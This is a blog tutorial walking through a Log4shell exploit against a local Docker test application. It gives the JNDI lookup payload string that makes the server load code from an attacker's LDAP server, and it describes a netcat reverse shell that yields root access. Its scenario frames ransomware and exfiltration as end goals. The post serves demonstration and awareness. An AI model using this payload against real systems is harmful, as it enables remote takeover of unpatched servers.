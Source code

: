 ```yaml
---
title: "Exploiting Log4shell"
categories:
  - Hacking
header:
  image: assets/images/hack.jpg

---
```


This article is intended to show the Log4shell exploit in action. If you're unfamiliar with what Log4shell is, [please read this article](https://www.freshprinceofhacking.com/general/Log4Shell-Vulnerability/). Essentially, we're going to have a test web application set up, along with the actual exploit that has been made ready to show as proof of concept. Let's get hacking!

### Scenario

We've just discovered a web application that is vulnerable to the Log4shell exploit. We want to be able to get a reverse shell on the webserver in order to control the server remotely. Once we do that, we can then continue to perform whatever hacking is necessary to achieve our end goal (data exfiltration, deploy crypto mining malware or ransomware, etc.). 

### Concept

Log4shell is a vulnerability recently discovered in the log4j java library. Log4j is a logging framework that records various events in a given application that can be read by a system administrator. These events can include user input, error messages and system routines. Log4j also utilizes a feature called lookups, which can be used to retrieve data from remote locations. If done correctly, a hacker can craft a special string that log4j will read, interpolate and execute code from a remote server that the attacker owns. The Java Naming and Directory Interface (JNDI) is the specific lookup that we will target to exploit this vulnerability.

### Tools Used

* Operating System: Linux (Pop-OS)
* Netcat: utility to read and write data across networks
* Python3: programming language used to compile exploit
* Docker: containerizing software that holds the vulnerable app
* Proof of Concept Github page: [Log4shell POC](https://github.com/kozmer/log4j-shell-poc)

If you're following along while reading, I'm going to assume you have everything downloaded and installed correctly after this point. 

### The Attack

Here is the web application we will be attacking:

![WebApp1]({{ site.url }}{{ site.baseurl }}/assets/images/webapp1.png)

It is a simple page with login credential fields. Remember, we want to be able to pass a string to log4j to query. User input is a great way to do that. Therefore the login credential fields will be our attack vector. 

There are only 2 things that we need to run: One is going to be the github poc script, which will create an LDAP server for us and set up the "malicious code" that log4j will execute on it. The other running piece is going to be a netcat listener that will receive the connection and start a reverse shell once the malicious code has been executed. Let's run the poc script from the github page:

![Server]({{ site.url }}{{ site.baseurl }}/assets/images/server.png)

We can see that an LDAP server has been created for us, and they even gave us a string that we can use to input into the login fields. Let's also start up our netcat listener in a different terminal:

![Netcat]({{ site.url }}{{ site.baseurl }}/assets/images/netcat.png)

The netcat listener is listening over port 9001, which is the listening port we gave to the exploit in the command when we set it up in the preivous section. This means that when we paste the string into the login field, the listener we set up should recognize that port 9001 is going to be used to complete the connection and spawn a reverse shell. Now everything should be ready to perform the exploit. The only thing we need to do is take the string ${jndi:ldap://localhost:1389/a} and paste it into the login field. Here is what that looks like:

![WebApp2]({{ site.url }}{{ site.baseurl }}/assets/images/webapp2.png)

All we've done is add the string to the username field and random text to the password field. Once we hit login, the exploit should work. Now let's turn our attention back to the poc terminal where we initiated the exploit:

![Server2]({{ site.url }}{{ site.baseurl }}/assets/images/server2.png)

Now we see that there was an LDAP reference which took the string we inputted into the field that log4j interpolated and then ultimately ran the code that's in "Exploit.class" hosted on our LDAP server. This is good! It means it worked as far as we know. However, let's check our netcast listener to see if we see any results:

![Netcat2]({{ site.url }}{{ site.baseurl }}/assets/images/netcat2.png)

Success!! We see a "Connection received on 127.0.0.1 54386". Ultimately, this means our reverse shell worked, and we now can execute commands on the webserver remotely. I've already chosen 3 simple but powerful commands that give us some information about the server that hosts the web application. 

The first command is "ls": This gives us information about files and folders in the current directory we are in. Ls also has other options which can show read/write/execute permissions on those files/folders.

The second command is "pwd": This command tells us exactly where we are on the machine. It gives information about the current directory and path of that directory. In this example I am in the /usr/local/tomcat directory.

The last command is "whoami": This command tells you the username of the current user. It may not seem like much, but as you can see it spit out "root" when we typed it in. This means I am the root user on this server, which basically allows me full permission to read/write/execute files and invoke privileged commands that normal users wouldn't have. You can think of it like an administrator credential, but for the terminal. 

The hack is complete!

### Conclusion

We can see that this exploit did not require a ridiculous amount of technical expertise to complete. Although the LDAP server and malicious code were created for us, setting these up manually is not hard to do. You can even push the exploit over other protocols such as DNS. So there are a lot of possibilities and creative ways that you can go about exploiting this vulnerability. You can bet that attackers will be trying to execute this in a stealthy manner that wouldn't be normally detected by security tools. 

As stated in my article on Log4shell, the problem is that there are millions upon millions of vulnerable devices, which more than likely aren't all patched. Hackers are constantly combing the internet for webservers and other devices that may be vulnerable to the exploit. It only takes one device in a network to be vulnerable that could be the downfall to the entire security posture of the organization. Only time will tell how bad the fall out from this vulnerability will be. There is already [evidence of this exploit being used in the wild](https://www.advintel.io/post/ransomware-advisory-log4shell-exploitation-for-initial-access-lateral-movement) to leverage ransomware, cryptomining and botnet activity across enterprise networks. In the meantime, the best thing we can do individually is to continue to adhere to best security practices; (including but not limited to) updating software when made available, use 2FA with strong passwords and be aware of phishing or suspicious emails.

Thank you for reading! 

